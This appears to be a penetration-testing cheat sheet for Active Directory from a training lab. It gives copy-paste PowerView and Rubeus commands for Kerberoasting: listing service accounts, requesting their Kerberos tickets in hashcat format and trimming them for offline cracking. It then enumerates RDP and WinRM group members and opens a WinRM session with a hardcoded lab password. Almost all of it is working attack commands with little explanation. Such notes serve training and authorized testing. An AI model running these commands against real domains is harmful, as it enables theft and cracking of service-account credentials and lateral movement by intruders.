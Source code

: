 Retrieve all SPN account in the current domain


```bash

Get-DomainUser * -SPN | select samaccountname, serviceprincipalname

```
 
Now get a ticket using `Get-DomainSPNTicket` module and export in a csv file  

```bash

Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat

```

Trim the TGS result of Get-DomainSPNTicket in bash

```bash
tr -d '[:space:]' < svcsql_TGS >> trim_TGS.hash
```

To crack the TGS with [hashcat look this example](AD%20Cheat%20Sheet/Hashcat/TGS%20Kerberos%20Ticker.md)  

### Rubeus

The `nowrap` it help us to copy and paste the ticket easly

```powershell
.\Rubeus.exe kerberoast /user:svc_vmwaresso /nowrap

```

To crack the TGS with [hashcat look this example](AD%20Cheat%20Sheet/Hashcat/TGS%20Kerberos%20Ticker.md)

# Privileged Access


## RDP access - Windows

```bash
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

## Enumarate local gropup for WINRM  - Windows


```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

### Use Enter-PSSession to connect WINRM on windows machine

```bash

$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force

$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)

Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

```
